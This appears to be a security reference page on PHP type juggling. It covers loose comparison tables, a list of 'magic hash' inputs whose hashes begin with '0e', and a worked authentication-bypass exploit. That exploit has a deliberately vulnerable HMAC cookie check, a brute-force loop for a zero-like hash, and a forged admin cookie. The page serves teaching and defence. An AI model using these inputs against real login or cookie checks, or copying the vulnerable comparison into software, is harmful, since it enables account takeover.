 # Type Juggling

> PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).

## Summary

- [Loose Comparison](#loose-comparison)
  - [True statements](#true-statements)
  - [NULL statements](#null-statements)
  - [Loose Comparison](#loose-comparison)
- [Magic Hashes](#magic-hashes)
- [Exploit](#exploit)
- [References](#references)

## Loose Comparison

> PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

- **Loose** comparison: using `== or !=` : both variables have "the same value".
- **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".

### True statements

| Statement                       |              Output              |
| ------------------------------- | :------------------------------: |
| `'0010e2'   == '1e3'`           |               true               |
| `'0xABCdef' == ' 0xABCdef'`     | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'` | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`               | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`       |               true               |
| `'123'  == 123`                 |               true               |
| `'123a' == 123`                 |               true               |
| `'abc'  == 0`                   |               true               |
| `'' == 0 == false == NULL`      |               true               |
| `'' == 0`                       |               true               |
| `0  == false `                  |               true               |
| `false == NULL`                 |               true               |
| `NULL == ''`                    |               true               |

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead.

![LooseTypeComparison](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

Loose Type Comparisons occurs in many languages:

- [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
- [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
- [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
- [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
- [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
- [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
- [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
- [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)

### NULL statements

| Function | Statement             | Output |
| -------- | --------------------- | :----: |
| sha1     | `var_dump(sha1([]));` |  NULL  |
| md5      | `var_dump(md5([]));`  |  NULL  |

## Magic Hashes

> Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations.

| Hash    | "Magic" Number / String                 |                            Magic Hash                            |                                                           Found By / Description |
| ------- | --------------------------------------- | :--------------------------------------------------------------: | -------------------------------------------------------------------------------: |
| MD4     | gH0nAdHk                                |                 0e096229559581069251163783434175                 |                     [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4     | IiF+hTai                                |                 00e90130237707355082822449868597                 |                     [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5     | 240610708                               |                 0e462097431906509019562988736854                 |          [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5     | QNKCDZO                                 |                 0e830400451993494058024219903391                 |          [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5     | 0e1137126905                            |                 0e291659922323405260514745084877                 |          [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5     | 0e215962017                             |                 0e291242476940776845150308577824                 |          [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5     | 129581926211651571912466741651878684928 |                 06da5430449f8f6f23dfc1276f722738                 |                                                         Raw: ?T0D??o#??'or'8.N=? |
| SHA1    | 10932435112                             |             0e07766915004133176347055865026311692244             |         Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773                          |     0e281250946775200129471613219196999537878926740638594636     | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812                          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                                | 0e66298694359207596086558843543959518835691168370379069085300385 |   [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083) |

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## Exploit

The vulnerability in the following code lies in the use of a loose comparison (!=) to validate the $cookie['hmac'] against the calculated `$hash`.

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;

	}
	else{
		echo "Well done";
	}
}
```

In this case, if an attacker can control the $cookie['hmac'] value and set it to a string like "0", and somehow manipulate the hash_hmac function to return a hash that starts with "0e" followed only by numbers (which is interpreted as zero), the condition $cookie['hmac'] != $hash would evaluate to false, effectively bypassing the HMAC check.

We have control over 3 elements in the cookie:

- `$username` - username you are targeting, probably "admin"
- `$expiration` - a UNIX timestamp, must be in the future
- `$hmac` - the provided hash, "0"

The exploitation phase is the following:

1. Prepare a malicious cookie: The attacker prepares a cookie with $username set to the user they wish to impersonate (for example, "admin"), `$expiration` set to a future UNIX timestamp, and $hmac set to "0".
2. Brute force the `$expiration` value: The attacker then brute forces different `$expiration` values until the hash_hmac function generates a hash that starts with "0e" and is followed only by numbers. This is a computationally intensive process and might not be feasible depending on the system setup. However, if successful, this step would generate a "zero-like" hash.
   ```php
   // docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
   for($i=1424869663; $i < 1835970773; $i++ ){
   	$out = hash_hmac('md5', 'admin|'.$i, '');
   	if(str_starts_with($out, '0e' )){
   		if($out == 0){
   			echo "$i - ".$out;
   			break;
   		}
   	}
   }
   ?>
   ```
3. Update the cookie data with the value from the bruteforce: `1539805986 - 0e772967136366835494939987377058`
   ```php
   $cookie = [
   	'username' => 'admin',
   	'expiration' => 1539805986,
   	'hmac' => '0'
   ];
   ```
4. In this case we assumed the key was a null string : `$key = '';`

## References

- [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
- [Magic Hashes - WhiteHatSec](https://www.whitehatsec.com/blog/magic-hashes/)
- [PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
- [spaze/hashes - Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes)
- [(Super) Magic Hashes - Mon 07 October 2019 - myst404 (@myst404\_)](https://offsec.almond.consulting/super-magic-hash.html)
